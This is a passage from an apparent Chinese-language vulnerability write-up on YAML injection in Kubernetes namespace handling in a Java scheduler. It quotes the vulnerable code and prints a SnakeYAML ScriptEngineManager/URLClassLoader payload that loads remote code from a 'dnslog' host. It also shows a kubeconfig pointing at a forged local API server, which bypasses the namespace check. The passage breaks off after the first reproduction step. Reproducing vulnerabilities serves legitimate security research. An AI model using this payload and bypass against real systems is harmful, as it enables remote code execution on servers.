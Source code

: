 ```plain
private String genDefaultResourceYaml(K8sNamespace k8sNamespace) {
        String name = k8sNamespace.getNamespace();
        String namespace = k8sNamespace.getNamespace();
        String cpuStr = null;
        if (k8sNamespace.getLimitsCpu() != null) {
            cpuStr = k8sNamespace.getLimitsCpu() + "";
        }

        String memoryStr = null;
        if (k8sNamespace.getLimitsMemory() != null) {
            memoryStr = k8sNamespace.getLimitsMemory() + "Gi";
        }

        String result = resourceYaml.replace("${name}", name).replace("${namespace}", namespace);
        if (cpuStr == null) {
            result = result.replace("${limitCpu}", "");
        } else {
            result = result.replace("${limitCpu}", "limits.cpu: '" + cpuStr + "'");
        }

        if (memoryStr == null) {
            result = result.replace("${limitMemory}", "");
        } else {
            result = result.replace("${limitMemory}", "limits.memory: " + memoryStr);
        }

        return result;
    }
```

也就 namespace 可控，但是在进入 upsertNamespaceAndResourceToK8s 方法之后，会有一层判断，如下：

```plain
if (!this.checkNamespaceToK8s(k8sNamespace.getNamespace(), k8sNamespace.getClusterCode())) {
            throw new RemotingException(String.format("namespace %s does not exist in k8s cluster, please create namespace in k8s cluster first", k8sNamespace.getNamespace()));
        } else {
            return this.upsertNamespacedResourceToK8s(k8sNamespace, yamlStr);
        }
```

这离会判断设置的 k8s 集群中是否存在传入的 namespace。正常集群肯定不行，因为想要利用成功，就需要设置 namespace 为类似!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://dnslog](http://dnslog/)"\]\]\]\] 这样的字符串，所以需要伪造一个集群 Server 端，绕过这里的判断。

复现过程如下：  
1、集群配置，将 masterUrl 指定为伪造的 Server 端：

```plain
apiVersion: v1
clusters:
- cluster:
    server: http://127.0.0.1:5000
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
kind: Config
preferences: {}
users: []
```
